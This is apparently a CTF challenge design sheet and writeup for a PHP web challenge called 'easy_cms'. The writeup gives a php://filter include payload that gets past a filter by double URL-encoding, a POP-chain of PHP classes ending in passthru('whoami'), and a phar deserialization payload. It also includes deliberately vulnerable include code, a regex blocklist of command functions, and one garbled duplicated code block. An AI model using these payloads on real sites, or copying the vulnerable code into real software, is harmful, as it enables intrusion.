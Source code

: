 # CTF赛题设计说明
### [题目信息]：
出题人|出题时间|题目名字|题目类型|难度等级|题目分值
:-|:-|:-|:-|:-|:-
Y4tacker|20210410|easy_cms|web|中上|500

### [题目描述]：
```
小Y最近写了一个CMS，他自信满满觉得没有漏洞，可学长一下就给他拿下了
```

### [题目考点]：
```
1. robots.txt泄露|sqlite数据库泄露
2. class目录任意文件读（配合include会url解码伪协议绕过过滤）
3. popchain构造
4. phar反序列化(原生类Ziparchieve的使用)
5. 绕过过滤执行系统命令
6. 代码审计
```

### [是否原创]：
```
是：原创
```

### [Flag]:
自行在环境变量里设置，在docker-compose.yml设置

### [题目环境]：
```
1. php:7.4-fpm-alpine
```

### [特别注意]：
```
无
```

### [题目writeup]：
开局一个游戏

首先访问robots.txt

```
Disallow: /h1nt.php
```

页面会打印出

```
database_type:sqlite
database_file:db/user.db3
```

下载得到user.db3文件由此拿到密码

进去后发现头像部分url为`class/showImage.php?file=logo.jpg`

猜测存在任意文件读，去掉后缀以后，得到源码

```php
<?php

error_reporting(0);
if ($_GET['file']){
    $filename = $_GET['file'];
    if ($filename=='logo.jpg'){
        header("Content-Type:image/png");
        echo file_get_contents("../static/images/logo.jpg");
    }else{
        ini_set('open_basedir','./');
        if ($filename=='hint.php'){
            echo 'nononono!';
        } else{
            if(preg_match('/read|[\x00-\x24\x26-\x2c]| |base|rot|strip|encode|flag|tags|iconv|utf|input|convertstring|lib|crypt|\.\.|\.\//i', $filename)){
                echo "hacker";
            }else{
                include($filename);
            }
        }
    }
}else{
    highlight_file(__FILE__);
}
```

尝试用伪协议读文件，可是发现过滤的很严格，但是放出了`%25`也就是`%`，配合文件包含函数的url解码可以桡过，过滤了read，其实可以直接忽略因为是等价的

因此构造payload

```
?file=php://filter/conv%6%35rt.bas%6%3564-%6%35ncode/resource=hint.php
```

解码发现了文件目录树

```
<?php
//以下是class目录结构
/*
- class
    -- cache
    -- tempaltes
        --- api
            - Api.php
        ---admin
            -add_category.php
            -category_list.php
            -edit_category.php
            -admin.php
            -footer.php
            -header.php
            -left.php
        - login.php
        - index.php
        - api.php
    -- auth.php
    -- file_class.php
    -- hint.php
    -- Medoo.php
    -- render_file.php
    -- showImage.php
    -- log.php
*/
```

读取文件后开始代码审计，最后通过构造popchain

```
UserInfo->SuperAdmin->ExportExcel
```

```
class UserInfo
{
    public $username;
    public $nickname;
    public $role;
    public $userFunc;

    public function __construct($username, $nickname, $userFunc, $role = '')
    {
        $this->username = new SuperAdmin("1", "1");;
        $this->nickname = $nickname;
        $this->userFunc = $userFunc;
        $this->role = $role;
    }

}

class SuperAdmin
{
    public $username;
    public $role;
    public $isSuperAdmin;
    public $OwnMember;

    public function __construct($username, $OwnMember, $superAdmin = '', $role = '')
    {
        $this->username = $username;
        $this->OwnMember = $OwnMember;
        $this->isSuperAdmin = new ExportExcel("whoami", "b", "passthru");;
        $this->role = $role;
    }

}

class ExportExcel
{

    public $filename;
    public $exportname;
    public $do;

    public function __construct($filename, $exportname, $do)
    {
        $this->filename = $filename;
        $this->exportname = $exportname;
        $this->do = $do;
    }


}
```

通过登录处可控制日志文件写入phar后，发现admin.php泄露日志地址

```
、<li style="font-size: 20px;">上次登录时间：<?php $a = new renderUtil("",Log,empty($_POST['file'])?"./class/cache/lastTime.txt":$_POST['file']);echo $a;?></li>

```

并且renderUtil的destrcu方法的extractZip方法看出可以执行phar反序列化利用

```
public static function extractZip($file,$content){
        $zip = new ZipArchive();
        $res = $zip->open($file);
        if ($res){
            $zip->extractTo($content);
        }else{
            echo 'no ZipFile';
        }
        $zip->close();
    }xxxxxxxxxx public static function extractZip($file,$content){        $zip = new ZipArchive();        $res = $zip->open($file);        if ($res){            $zip->extractTo($content);        }else{            echo 'no ZipFile';        }        $zip->close();    }public function __destruct(){        if (!empty($this->file)){            $ret = $this->file->open($this->filename,$this->content);        }        if (!empty($ret)){            fileUtil::extractZip($this->filename, $this->content);        }    }
```

执行命令发现根目录存在`/flagg`，文件读取命令大多被禁用了，但是可以利用编程语言特性绕过，比如python，php，这里直接`php /flagg`相当于是include

```
function wudiWaf($name){
    if(preg_match('/system|call|proc|ob|mail|put|env|dl|ini|exec|array|create|_|ch|op|log|link|pcntl|imap|cat|tac|>|more|less|head|tail|nl|sort|od|base|awk|cut|grep|uniq|string|sh|sed|rev|zip|\\\\|py|[\x01-\x19]|\*|\?/',$name)){
        die("NO");
    }else{
        return true;
    }
}
```

访问`?page=admin&c=admin`
post数据，即可拿到flag

```
file=phar://./class/cache/lastTime.txt/test.txt
```

